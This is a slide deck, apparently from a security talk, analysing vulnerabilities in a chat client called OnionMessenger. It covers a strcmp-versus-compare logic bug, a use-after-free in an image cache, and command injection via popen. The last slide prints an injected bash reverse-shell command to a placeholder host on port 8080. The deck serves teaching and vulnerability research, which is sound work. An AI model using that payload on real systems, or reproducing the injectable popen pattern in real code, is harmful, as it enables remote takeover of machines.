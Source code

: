 ## Vulnerability and Exploitation 
- Hongsik Kim (w/ VOM)

---

## New Features
1. Image File Cache
2. /r, /rpl Command

---

## Image File Cache
---?image=assets/image/origin.jpg&size=auto 50%

---?image=assets/image/cached.JPG&size=auto 50%

---

## /r Command
---?image=assets/image/reply.jpg&size=auto 70%

---

## Vulnerabilities
- Logical |
    - Difference between strcmp and compare |

- Memory |
    - Use After Free |
    - Command Injection |

---

### poc.cc

```C++
using namespace std;

int main(){
    char buf[100] = "abcd\x00efg";
    string s1 = string(buf, 8);
    string s2 = string(buf);
    
    if (!strcmp(s1.c_str(), s2.c_str()))
        cout << "strcmp equal!!" << endl;

    if (!s1.compare(s2))
        cout << "compare equal!!" << endl;
}
```

@[9](Executed)

---

### Utils/Cache.cc

```C++
#include "Cache.hh"

namespace Cache {
    Cache::Cache() {
        count = 0;
    }
    Cache::~Cache() {
    }
    
    Element* Cache::find(string url) {
        for (auto it = data.begin(); it != data.end(); ++it) {
            if (!strcmp(url.c_str(), (*it).first.c_str()))
                return (*it).second;
        }
        return NULL;
    }


    void Cache::insert(string url, string sender, string path) {
        if (this->is_full())
            return;
        Element* elem = new Element(path, sender);
        data.push_back(make_pair(url, elem));
        count++;
    }

    Element* Cache::remove(string url) {
        auto elem = this->find(url);
        if (elem){
            for (auto it = data.begin(); it != data.end(); ++it) {
                if (!url.compare((*it).first)) {
                    it = data.erase(it);
                    return elem;
                }
            }
        }
        return elem;
    }

    void Cache::update(string url) {
        auto elem = this->remove(url);
        if (elem) {
            data.push_back(make_pair(url, elem));
        }
    }

    void Cache::pop() {
        auto it = data.begin();
        ++it;
        delete (*it).second;
        data.erase(it);
        count--;
    }

    Element::Element(string _path, string _sender) {
        path = _path;
        sender = _sender;
    }
    Element::~Element() {
    }
    
    string Element::GetPath() {
        return path;
    }

    string Element::GetSender() {
        return sender;
    }
}
```

@[10-16](Cache::find)
@[12](Using strcmp)
@[27-38](Cache::remove)
@[31](Using String::compare)
@[40-45](Cache::update)
@[47-53](Cache::pop)
@[55-68](Element Class)

---

### OnionMessenger.cc

```C++
void OnionMessenger::HandleAArt(Message::ImgLayer *msg) {                      
    auto sender = msg->GetSender();                                            
    auto url = msg->GetUrl();                                                  
    auto elem = image_cache->find(url);                                        
    string path;                                                               
    if (!elem){		// Cache Miss                                                              
        provider->PushChat(sender, "\n" + \
            Features::DisplayAArt(url, path));
        if (image_cache->is_full()) {                                          
            image_cache->pop();                                                
        }                                                                      
        image_cache->insert(url, sender, path);                                
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }                                                                          
    snprintf(recent_user, MAX_ID_LEN, "%s", sender.c_str());                   
    delete msg;                                                                
}                                                
```

@[6-12](Cache Miss)
@[13-17](Cache Hit)

---

## Exploit Scenario

---?image=assets/image/process1.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process2.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process3.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process4.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process5.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process6.png&size=60%
<!-- .slide: data-background-transition="none" -->
---?image=assets/image/process2.png&size=60%
<!-- .slide: data-background-transition="none" -->

---

```C++
    } else {		// Cache Hit                                                               
        provider->PushChat(sender, "\n" + \
            Features::Asciiart(elem->GetPath().c_str()));
        image_cache->update(url);                                              
    }
```

@[3](with manipulated path)

---

### Utils/Features.cc
```C++
string Asciiart(const char *filepath) {                                        
    string path = "/root/bin/goasciiart " ;                                    
    //string path = "/bin/go/bin/goasciiart ";                                 
    string result= "";                                                         
    path.append(" -p ").append(filepath).append(" -w 80");                     
    char buf[1024];                                                            
    FILE *fp=NULL;                                                             
    cout << path << endl;                                                      
    fp=popen((char*)path.c_str(),"r");                                         
    if (fp) {                                                                  
        while ((fgets(buf,1024,fp)) != NULL) {                                 
            result.append(string(buf));                                        
        }                                                                      
        pclose(fp);                                                            
    }                                                                          
    return result;                                                             
}                                  
```
@[5, 9](Command Injection)

---                                                                          
### Get a shell!

```C++
popen(“/root/bin/goasciiart –p ;echo \"bash -i >& /dev/tcp/IPADDR/8080 0>&1\"  | bash;–w 80”);
```

---

# Demo


